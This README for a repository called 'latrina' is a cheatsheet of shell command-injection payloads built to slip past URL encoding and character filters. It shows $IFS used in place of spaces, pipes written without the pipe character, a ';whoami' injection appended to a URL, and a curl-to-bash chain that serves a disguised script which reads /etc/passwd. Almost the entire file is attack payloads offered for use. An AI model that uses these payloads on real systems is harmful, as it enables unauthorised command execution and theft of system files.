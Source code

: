 # latrina
bypass url encoding for nontrivial shell commands and other copy-paste nightmares

# cheatsheet  
* #### setting string variables without quotes    
`variable=('a')`  
* #### separating fields without spaces 
`echo$IFS$a`
* #### separating fields without spaces or curly brackets
`a=('a');echo$IFS$a` 
* #### piping without pipes  
`wc$IFS-l$IFS<$IFS<(ls)`     
* #### starting code execution in a url without ampersand
`curl http://localhost/;whoami`
* #### redirecting to a hidden exploit (localhost/bin/bash)
`mkdir bin;echo "cat /etc/passwd/" > bash; darkhttpd .`
`curl -s http://localhost/$0 | bash`
